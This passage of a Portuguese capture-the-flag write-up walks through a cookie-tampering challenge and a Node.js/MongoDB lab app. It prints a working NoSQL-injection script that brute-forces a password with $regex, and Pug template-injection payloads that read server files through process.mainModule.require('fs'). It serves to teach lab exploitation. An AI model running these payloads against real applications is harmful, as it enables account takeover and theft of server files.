  if (
    btoa(ZzXxYyzz2) ==
    "VldsUmVHVXhXbEJSTUZabVZUQkdRMUpXT1UxU1ZrcG1WREZXWmxKRlZrTldWV1JJVVZaS1psTnJSbGRSVms1RVZXdHNVVlasdaspHT1ZOU1ZYaENWMFZHWmxWV1ZrWllNVTVRV0RGQ1NsUXhTa0ptVVQwOQ==asdas"
  ) {
    return (document.body.className = "granted");
  }

  if (
    atob(ZzXxYyzz5) ==
    "VWlReGUxWlBRMFZmVTBGQ1JWOU1SVkpmVDFWZlJFVkNWVWRIUVZKZlNrRldRJlksdjaVk5EVWtsUVZGOVNSVXhCV0VGZlVWVkZYMU5QWDFCSlQxSkJmUT09"
  ) {
    return (document.body.className = "granted");
  } else {
    return (document.body.className = "granted");
  }
}
```

Como existem vários códigos em base64, eu fui decodificando e vi que ele foi codificado várias vezes, então tive que decodificar várias vezes também, mas o primeiro já era a flag

```
$ echo -n "VldsUmVHVXhXbEJSTUZabVZUQkdRMUpXT1UxU1ZrcG1WREZXWmxKRlZrTldWV1JJVVZaS1psTnJSbGRSVms1RVZXdHNVVlpHT1ZOU1ZYaENWMFZHWmxWV1ZrWllNVTVRV0RGQ1NsUXhTa0ptVVQwOQ==" | base64 -d | base64 -d | base64 -d
R$1{~FLAG~}
```

### **Me dá o C\*\*kie?**



Olhando a aplicação, não encontrei nada no código-fonte, então fui olhar os cabeçalhos de requisição e resposta e vi que na resposta ele seta um cookie chamado admin para 0, então eu alterei o valor do cookie para 1 e recarreguei, isso não funcionou.



Pensando no motivo de não ter funcionado, vi que além desse cookie, existe também um cookie de sessão, que provavelmente era associado ao usuário, então novamente setei o cookie para 1 e apaguei o cookie session. Dessa vez a tela mudou para "oi Admin" e um novo cookie chamado token foi setado

Como o nome do desafio era me dá o c\*\*kie, coloquei o valor do cookie no padrão R$1{token} e pontuei

### AppSec



Esse foi o desafio que demorei mais tempo para fazer, então vou tentar detalhar mais o processo todo

- Passo 1: Montar o ambiente

  Na descrição é fornecido um arquivo .rar que ao ser extraído contém um projeto jeito em nodejs e mongodb, além disso a aplicação roda num container docker, em resumo rodei os seguintes comandos

```
$ unrar x AppSec.rar
$ cd AppSec
$ docker-compose up
```

Depois que o docker baixou as imagens e montou os containers, wu acessei localhost:3000 para ver a aplicação


- Passo 2: Explorar a aplicação

  Explorando a aplicação vi que tinham funcionalidades de cadastro, login e compra de um único produto que era listado.
  Quando eu tento comprar ele diz que meu login não está ativo e devo ativá-lo para efetuar a compra, na aplicação não existe nenhum lugar onde se possa ativar a conta também.

- Passo 3: Explorar o código



Essa é a estrutura do projeto, o arquivo principal app.js, a inicialização do banco em db.js, as funções que são executadas ao acessar a rota na pasta routes, as views na pasta views e assim por diante.

Eu iniciei pelo arquivo shop.js, para ver como ele faz a validação se o usuário está ativo para tentar violar a restrição

```javascript
const checkLogin = (req, res, next) => {
  if (req.signedCookies.token) next();
  else res.render("error", { error: "You must login!" });
};

const checkActive = (req, res, next) => {
  if (req.signedCookies.token.active) next();
  else res.render("error", { error: "Your account is not active!" });
};
```

```javascript
router.post("/order", checkLogin, checkActive, async (req, res) => {
  let { user_name, candy_name, address } = req.body;

  res.render("confirm", {
    user_name: user_name,
    candy_name: candy_name,
    address: pug.render(address),
  });
});
```

Ele só verifica se no token, o campo active é true, então meu primeiro pensamento foi alterar esse valor do cookie, mas ao alterar eu acabava não conseguindo passar pelo middleware checkLogin como se nenhum token fosse passado. Então passei a olhar como ele criava o token no arquivo user.js

```javascript
router.post("/login", async (req, res) => {
  let { username, password } = req.body;
  let rec = await db.Users.find({ username: username, password: password });
  if (rec) {
    if (rec.username === username && rec.password === password) {
      res.cookie("token", rec, { signed: true });
      res.redirect("/shop");
    } else {
      res.render("login", { error: "You Bad Bad >_<" });
    }
  } else {
    res.render("login", { error: "Login Failed!" });
  }
});
```

Quando um login é feito ele busca o usuário e depois confere se os campos que ele achou são iguais aos campos que foram passados pela aplicação, então ele cria o token com as informações do usuário e o campo signed: true, pesquisei o que isso significava e achei isso: https://stackoverflow.com/questions/11897965/what-are-signed-cookies-in-connect-expressjs. Ele diz que um signed cookie recebe uma assinatura e verifica se o cookie havia sido modificado, que era justamente o que eu estava fazendo, por isso ao modificar, eu era barrado no checkLogin

Então passei para outra linha de pensamento, voltando para o arquivo user.js na função login eu vi que não havia nenhuma tratativa na busca de usuário
Também percebi que no arquivo db.js ele inseria um usuário com com o campo active como true, isso me permitiria efetuar a compra em /shop

```javascript
let users = client.db("test").collection("users");
users.deleteMany((err) => {
  if (err) {
    console.log(err);
  } else {
    users.insertOne({
      username: "rabbit",
      password: process.env.PASSWORD,
      active: true,
    });
  }
});
```

Então já tinha um usuário e tinha que descobrir a sua senha, como não há tratativas eu imaginei um NoSQL Injection

- Passo 4: NoSQL Injection
  Com o BurpSuit eu interceptei um requisição de login e alterei o password para [$exists]=true
  

Caso a vulnerabilidade existisse, ele ia acessar a rota de login via post e ao pegar os dados enviados e iria fazer uma busca assim:

```javascript
let rec = await db.Users.find({
  username: "rabbit",
  password: { $exists: true },
});
```

E isso aconteceu, porém na linha seguinte, ele verifica se os dados enviados eram iguais aos dados encontrados e enviava a mensagem de erro You Bad Bad

```javascript
if (rec.username === username && rec.password === password)
```



Mas isso já é informação suficiente para escrever uma script para procurar a flag, já existem alguns preparados e eu me baseei em um do [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-urlencoded-body)

- Passo 5: Payload
  Como o script já vem preparado, eu só alterei algumas coisas, o script final ficou assim:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username = "rabbit"
password = ""
u = "http://localhost:3000/user/login"
headers = {'content-type': 'application/x-www-form-urlencoded'}

while True:
    entrou = 0
    lista = string.printable
    for c in lista:
        if c not in ['*', '+', '.', '?', '|', '&', '$']:
            if c in ['(', ')', '[', ']', '\\']:
                c = '\\' + c
            payload = 'username=rabbit&password[$regex]=^' + (password + c)
            print(payload)
            print(password)
            r = requests.post(u, data=payload, headers=headers)
            if 'You Bad Bad' in r.text:
                entrou = 1
                print("Found one more char : %s" % (password+c))
                password += c
    if entrou == 0:
        break
```

Com isso eu consegui encontrar a senha do usuário rabbit e fazer o login

- Passo 6: Explorar como obter a flag
  Até esse momento eu achava que seria algo como um LFI na rota order via POST

```javascript
router.post("/order", checkLogin, checkActive, async (req, res) => {
  let { user_name, candy_name, address } = req.body;

  res.render("confirm", {
    user_name: user_name,
    candy_name: candy_name,
    address: pug.render(address),
  });
});
```

Meu pensamento era que no campo address eu pudesse passar '../../flag' e buscar o arquivo da flag, mas isso não deu certo.

Olhando no console que estava acontecendo percebi que ele dava o seguinte erro

)

Ele tenta executar o que eu coloco como um código. como isso acontecia fui ler sobre SSTI no pug, que é o template engine usado no projeto: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection. Eu vi que os templates são interpretados dentro de um #{} e dentro é possível colocar código javascript, comprovei a vulnerabilidade injetando um #{(()=>{return "A"})()}




Ele exibe no exatamente o meu retorno, então parti para fazer o meu template injection, olhei algumas coisas na internet, a maioria monta um shell e eu precisava somente ler o conteúdo do arquivo flag, então adaptei.

- Passo não sei mais qual passo eu tô: Criar um template injection
  Eu comecei vendo que objetos eu poderia usar, para isso usei o console do próprio container pra mostrar as saídas e fui verificando e consultando no google o que era costumeiro usar, vi que muitos template injections usavam um objeto chamado global.process.mainModule e eu fui testá-lo

  ```javascript
  #{(()=>{console.log(Object.keys(global.process.mainModule))})()}
  ```

  ```javascript
  #{(()=>{console.log(Object.keys(global.process.mainModule.require('fs')))})()}
  ```

  ```javascript
  #{(()=>{console.log(global.process.mainModule.require('fs').readFileSync('../../flag', 'utf8'))})()}
  ```

  Isso deu certo, a flag estava sendo exibida no meu console, agora eu tinha que retorná-la pra aplicação

```javascript
  #{(()=>{return global.process.mainModule.require('fs').readFileSync('../../flag', 'utf8')})()}
```

E aqui está a flag sendo exibida na aplicação


Depois disso, eu só segui os mesmos passos no servidor, executei o script para descobrir a senha do usuário rabbit e depois executei o template injection para descobrir a flag
